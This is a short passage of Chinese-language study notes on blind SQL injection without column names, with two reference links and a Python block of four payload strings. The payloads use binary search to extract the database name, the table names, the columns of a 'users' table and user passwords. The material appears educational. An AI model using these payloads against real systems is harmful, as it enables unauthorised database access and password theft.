 将1,2,3分别令为a,b,c这样就可以在查询第二列的时候用b替代,而不加反引号了

### 无列名盲注

前面还是一样的，但是后面查表的的操作不太一样



参考链接：https://blog.csdn.net/weixin_46330722/article/details/109605941

参考链接：https://blog.csdn.net/l1028386804/article/details/85869703

```
payload = "' and (ascii(substr(database(), %d, 1))) > %d--+" % (i, mid)
# payload = "' and (ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()), %d, 1))) > %d--+" % (i, mid)
# payload = "' and (ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='users' limit 0,1), %d, 1))) > %d--+" % (i, mid)
# payload = "' and (ascii(substr((select password from users limit 0,1), %d, 1))) > %d--+" % (i, mid)
```
